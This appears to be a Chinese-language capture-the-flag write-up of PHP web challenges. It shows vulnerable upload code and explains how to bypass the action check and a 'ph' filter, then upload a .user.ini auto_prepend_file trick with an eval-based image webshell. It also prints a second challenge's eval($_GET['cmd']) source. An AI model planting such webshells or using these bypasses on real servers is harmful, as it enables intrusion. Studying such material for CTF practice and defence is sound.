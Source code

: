 ```php

if($action==='upload'){
    die('what ???');
}

switch ($action) {
    case 'upload':
        $name = $_POST['name'];
        $content = $_POST['content'];
        $ft = new aaa($name,$content);
        if($ft->put_file()){
            echo $name.' upload success!';
        }
        break;
    case 'download':
        $name = $_POST['name'];
        $ft = new aaa($name,$content);
        if($ft->get_file()===False){
            echo $name.' download failed';
        }
        break;
    default:
        echo 'hello world';
        break;
} 
```

文件上传。

发现想要上传文件，需要在到达``switch()``中的upload，就需要绕过``$action==='upload'``，当值取0的时候可以绕过。

在new类时，会对我们的输入内容做检查，其中正则了``ph``且大小写无法绕过，可以使用PHP短标签来绕过``<??>``，因为无法上传到``php``后缀文件，而代码中又创建了index.php，``@touch($sandbox.'/index.php');``。所以可以想到上传``.user.ini``:``auto_prepend_file=a.png``来包含我们的图片马，上传一个文件a.png,内容为``<?=eval($_POST['hhh']);?>``，访问/c2fcb359a3d8168c5e5d7e57fe2c5d8c/index.php，蚁剑连接。

### web02

```php
<?php
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}
if(isset($_POST['x']) && "1dd991" === substr(md5($_POST['x']),0,6) && isset($_POST['y']) && is_numeric($_POST['y']) and $_POST['y']!=='36' and trim($_POST['y'])!=='36' and filter($_POST['y'])=='36'){  
    if(preg_match('/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i', $_GET['cmd'])){
                die('hacker');
    }else{
                eval($_GET['cmd'].';');
    }
}else{
    die(show_source(__FILE__));
}
?> 
```
